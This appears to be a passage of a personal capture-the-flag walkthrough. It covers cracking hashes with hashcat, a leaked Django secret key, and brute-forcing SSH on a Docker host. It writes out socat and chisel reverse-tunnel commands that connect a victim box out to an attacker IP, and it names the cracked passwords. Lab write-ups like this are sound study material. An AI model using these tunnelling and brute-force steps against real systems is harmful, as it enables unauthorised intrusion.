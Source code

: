 Let's get an ssh binary, even thos we still need ramsey password...still running...

Ok soo, trying to bruteforce the password might not be the efficient  way to do this.

In the settings file, we got the `Secret Key`
```
SECRET_KEY = '^8u-+yqrnww%+zn6gw=htqt6u+c^!q*5o3y9y$tt$z7$9klhqk'    
```

Maybe we can recover something with this ?

Oh well, it was the way to go. I switched to hascat an ran the ramsey hash. Took quite a while annnddd... didn't fint anything

So i looked again at the write up and they mention that they cracked `testing` account.

Running hashcat on `testing` hash, we find
```
lala12345
```

Trying to login via ssh onto the box doesn't work with any users :/

Login in as `testing` on the webapp, we don't have access to `/admin/` but we get access to the `Share` view. From there we can upload a file but I don't think this is the way to go, we might be able to upload a revshell but we would get back into the docker container.

Again, looking at some writeups, its seems that this password doesn't lead anywhere, we need to bruteforce `ramsey@172.17.0.1`.

The writeup that I was reading proposed using `chisel`. Wanted to try a bit more handon approach.

I also found some interesting files in `/tmp`.
There is a `socat` binary and also an `elf` file which might be a `metasploit` payload.

Would be easy if we could open ports on the docker instance but we can't.
Here are the steps i found to create a reverse tunnel (https://book.hacktricks.xyz/tunneling-and-port-forwarding):
```
Attacker -> sudo socat tcp-listen:443,reuseaddr,fork tcp-listen:2222,reuseaddr
Victim   -> while true; do /tmp/socatx86.bin TCP4:10.6.32.20:443 TCP4:172.17.0.1:22 ; done
Atacker  -> ssh -p 2222 ramsey@localhost
```

And we get a password prompt but somehow, `patator` can't bruteforce it, we get connection refused... hmm weird..

Tried also with hydra but didn't work either (Well, was taking quite some time and write ups mention that they find the password almost instaneously using rockyou soo i guess we were getting connection refused but couldn't see the errors...)

Hmmm, let's try with `chisel : https://github.com/jpillora/chisel`
```
Attacker -> sudo ./chisel server -p 1880 --reverse
Victim   -> ./chisel 10.6.32.20:1880 R:2222:172.17.0.1:22
Attacker -> ssh -p 2222 ramsey@localhost
```

Somehow, this does work with patator and we find the password
```
12345678
```
